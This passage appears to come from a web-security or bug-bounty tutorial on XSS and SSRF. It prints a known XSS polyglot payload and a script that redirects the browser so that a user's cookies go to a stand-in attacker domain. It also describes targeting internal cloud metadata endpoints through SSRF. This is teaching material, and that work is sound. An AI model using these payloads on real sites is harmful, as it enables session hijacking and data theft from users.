 ``` javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
- The example shown above is a famous XSS polyglot by “0xsobky” and it can be used to trigger your xss payload on a multitude of scenarios.
#### Beyond Alertbox [Updated]
- Prompting a Alert box sounds cool, but doesn't shows the full impace of XSS Vulnerability. A lot can be done like:
	- <b> Cookie Stealer</b>: Javascript can be used to retrieve a users cookies as shown below:
		- Document.cookie
	-  <b> Redirection</b>: By modifying the ``` “document.location” ``` we can force the browser to navigate to an attackers webpage as shown below :
			- Document.location = ” http://attacker-domain.com ”
		- Example
```javascript
<script type="text/javascript"> document.location='http://attacker-domain/cookiestealer?cookie='+document.cookie; </script>
```


### 2.3 SSRF
- Server-Side Request Forgery (SSRF) occurs when an attacker forces an application to make HTTP requests on their behalf.
- This can be used to read data from internal applications. Most people leverage this vulnerability to post or read data from sensitive endpoints such as AWS and Gcloud metadata service, FTP service, LDAP service, and local files.
- How to Find?
	- search for requests that have a URL as a parameter value
	- If the response is reflected back to the attacker you could have a possible SSRF vulnerability.
	- then change the URL to google.com and if I see a response then you can assume the endpoint is vulnerable.
![](assets/ssrf1.png)
